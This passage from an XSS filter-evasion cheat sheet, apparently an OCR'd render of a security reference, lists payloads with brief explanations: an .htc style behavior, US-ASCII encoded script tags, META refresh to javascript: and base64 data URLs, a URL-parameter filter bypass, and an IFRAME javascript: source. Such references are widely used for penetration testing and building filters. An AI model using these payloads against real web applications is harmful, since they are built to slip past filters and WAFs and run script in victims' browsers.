### Local htc File 
This is a little different than the last two XSS vectors because it uses an .htc file that must be on the same server as the XSS vector. This
example file works by pulling in the JavaScript and running it as part of the style attribute:
 
```
    <XSS STYLE="behavior: url(xss.htc);"> 
```
 ### US-ASCII Encoding
 This attack uses malformed ASCII encoding with 7 bits instead of 8. This
XSS method may bypass many content filters but it only works if the host transmits in US-ASCII encoding or if you set the encoding yourself. This
is more useful against web application firewall (WAF) XSS evasion than it is server side filter evasion. Apache Tomcat is the only known server
that by default still transmits in US-ASCII encoding. 
```
     ¼script¾alert(¢XSS¢)¼/script¾
```
 
### META 
The odd thing about meta refresh is that it doesn\'t send a referrer in the header - so it can be used for certain types of attacks where you
need to get rid of referring URLs: 
```
     <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```
 
#### META using Data 
Directive URL scheme. This attack method is nice because it also doesn\'t have anything visible that has the word SCRIPT or the
JavaScript directive in it, because it utilizes base64 encoding. Please see [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) for more
details. 
```
     <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```
 
#### META with Additional URL Parameter 
If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade this filter rule with the following
technique: 
```
     <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```
 
(Submitted by Moritz Naumann) 
### IFRAME 
If iFrames are allowed there are a lot of other XSS problems as well: 
```
     <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```
 